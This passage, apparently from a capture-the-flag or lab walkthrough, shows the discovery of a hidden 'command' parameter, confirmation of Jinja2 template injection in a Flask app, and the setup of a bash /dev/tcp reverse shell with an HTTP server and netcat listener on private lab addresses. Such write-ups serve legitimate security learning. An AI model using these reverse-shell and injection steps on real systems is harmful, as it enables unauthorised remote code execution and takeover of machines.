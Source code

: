 ```bash
$ arjun -u http://192.168.56.80/2e51aab2-8824-47a6-9492-2dd9d533644a --headers "X-Forwarded-For: 127.0.0.1"
_
/_| _ '
( |/ /(//) v2.2.1
_/

[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Analysing HTTP response for potential parameter names
[*] Logicforcing the URL endpoint
[✓] parameter detected: command, based on: body length
[+] Parameters found: command
```
`Arjun` found a parameter that changed the page's body length, interesting ! Let's see what this param really does: 
```bash
$ curl -H "X-Forwarded-For: 127.0.0.1" http://192.168.56.80/2e51aab2-8824-47a6-9492-2dd9d533644a?command=test
<!DOCTYPE html>
 <html>
   <head>
     <title>Secret Page</title>
   </head>
   <body>
     <p>test</p>
   </body>
 </html>
```
The value of the `command` param is reflecting on the page! Let's see if it's vulnerable to SSTI (Server-Side Template Injection). Still assuming our website is running with Flask, the syntax of a basic injection would look like this : `{{6*7}}`, this would execute and render `42` in the HTML template. 
> Here I'll use Postman for the example, as it is one simple way to specify the `X-forwarded-For` header, but using burpsuite, your browser's developer tools or any other tool would perfectly work too for this kind of job. You could also continue using curl, but don't forget to escape special chars, or to manually encode your command, as it only accepts URL encoding format.

![postman](https://user-images.githubusercontent.com/58345798/210207689-0f038a01-3c0e-4ad8-a504-d61ba062d680.png)

Bingo ! Our speculations about the Flask app turned out to be true, moreover the application is vulnerable to SSTI !

## Exploiting the vulnerability

Searching for an exploit on our favorite github repo, aka [PayloadsAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2), it looks like we can get RCE (Remote Code Execution) quite easily, using a reverse shell. 
Let's set everything up:

1. Write a simple `revshell` script that will be downloaded and executed on the target machine:
```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/192.168.56.1/4000 0>&1"
```
2. Launch an HTTP server, for the script to be downloaded: 
```bash
$ python3 -m http.server 8000 # In the same directory as your revshell
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
3. Listening on the port 4000, to receive our `revshell` connexion:
```bash
$ nc -lnvp 4000
Listening on 0.0.0.0 4000
```